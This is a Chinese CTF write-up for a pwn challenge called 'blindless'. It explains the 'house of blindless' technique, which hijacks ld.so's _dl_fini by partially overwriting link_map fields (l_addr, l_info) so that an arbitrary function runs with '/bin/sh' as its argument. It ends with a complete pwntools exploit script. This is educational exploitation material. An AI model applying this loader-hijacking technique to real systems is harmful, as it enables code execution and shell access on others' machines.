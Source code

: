 # blindless

> 以后遇到这种奇奇怪怪的题应该一眼就看出来是某种 house 的。。

## Analysis

程序漏洞：

给了一个类似 bf 的 vm 程序，不过难得的逻辑很简单，可以实现在堆地址上加偏移的任意地址写，但是没有泄漏，这很明显需要某种 HOUSE 来打，这里考虑到 `house of blindless`：

低字节覆盖 `l->l_addr` 和 `l->l_info[DT_FINI_ARRAY/DT_FINI]->d_un.d_ptr`，即可调用 elf 中的任意函数，要求：

- 能够实现 elf 或 libc 范围内的任意地址写（本题可以分配大型堆块到 libc 前，进而实现 libc 范围内的任意写）

- 程序正常退出

参考到 ld.so 源码，elf/dl-fini.c 中的 _dl_fini() 函数中：

```c
/* 其中关键定义如下： */
#define DT_INIT 12
#define DT_FINI 13
#define DT_FINI_ARRAY 26

/* Is there a destructor function?  */
if (l->l_info[DT_FINI_ARRAY] != NULL || l->l_info[DT_FINI] != NULL)
{
    /* When debugging print a message first.  */
    if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
        _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n",
                          DSO_FILENAME (l->l_name),
                          ns);

    /* First see whether an array is given.  */
    if (l->l_info[DT_FINI_ARRAY] != NULL) // 分支1
    {
        ElfW(Addr) *array =
            (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
        unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
        while (i-- > 0)
            ((fini_t) array[i]) ();
    }

    /* Next try the old-style destructor.  */
    if (l->l_info[DT_FINI] != NULL) // 分支2
        DL_CALL_DT_FINI (l, l->l_addr + l->l_info[DT_FINI]->d_un.d_ptr);
}
```

这里有两条分支，要劫持控制流就需要到达控制 `l->l_info[26] == 0` 绕过分支1，接下来分为能控制 elf+libc 和 仅能控制 libc 的两种情况：

**控制 elf+libc**：

> 由于能控制 elf，就可以改到 l->l_info[DT_FINI] 上具体的值，进而直接在 l_addr 的基础上进行任意 elf 地址调用。

```c
l->l_info[13]->d_un.d_ptr = <target> - elf_base;
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

**若仅能控制 libc**：

```c
/* 在 l->l_info[13] 附近找到其他 Elf64_Dyn 类型结构体，且其 d_un.d_ptr 正好满足我们需求 */
*(char *)l->l_addr = <target> & 0xff // 改写低位
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

## Exploitation

于是利用第二种思路得到本题 exp：

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)


payload = b""


def go_forward(distance):
    global payload
    payload += b"@"
    payload += p32(distance)


def next_byte():
    global payload
    payload += b">"


def next_long():
    global payload
    payload += b"+"


def change_byte(data):
    global payload
    lg("data", data)
    payload += b"."
    payload += p8(data)


def edit(data):
    global payload
    for i in range(len(data)):
        change_byte(data[i])
        next_byte()


DT_FINI = 13
DT_INIT = 12
DT_FINI_ARRAY = 26
_rtld_global_to_chunk = 0x323060
arg0 = _rtld_global_to_chunk + 2312
l_addr = 0x324190


go_forward(arg0 - 0x10)
edit(b"/bin/sh\x00")
go_forward(l_addr - arg0 - 8)
edit(p8(0xE0))
go_forward(0xA8 - 1)
edit(p8(0xA8))
go_forward(0x68 - 1)
edit(p64(0))

payload += b"q"

ru(b"Pls input the data size\n")
sl(i2b(0x100000))
ru(b"Pls input the code size\n")
sl(i2b(0x100))
ru(b"Pls input your code\n")
s(payload)

ia()
```
